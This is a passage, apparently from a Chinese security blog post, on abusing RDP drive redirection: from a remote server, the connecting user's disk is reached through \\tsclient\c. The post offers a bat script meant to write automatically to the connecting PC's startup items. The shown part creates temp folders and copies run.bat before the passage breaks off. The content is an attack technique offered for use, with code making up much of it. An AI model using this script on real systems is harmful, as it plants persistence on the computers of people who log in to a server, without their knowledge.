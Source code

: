 ![](/img/210111_mstsc.jpg)  
当开启后，在被登录服务器端执行命令:  
```dir \\tsclient\c```  
但是要执行其他命令就会拒绝访问。  
![](/img/210111_dir.jpg)  
这里给出一个bat脚本，运行后就可以自动对登录PC的启动项进行写入。  
![](/img/21011_bat.jpg)  
```
@echo off
timeout 1 >nul 2>&1
mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1
copy run.bat C:\temp >nul 2>&1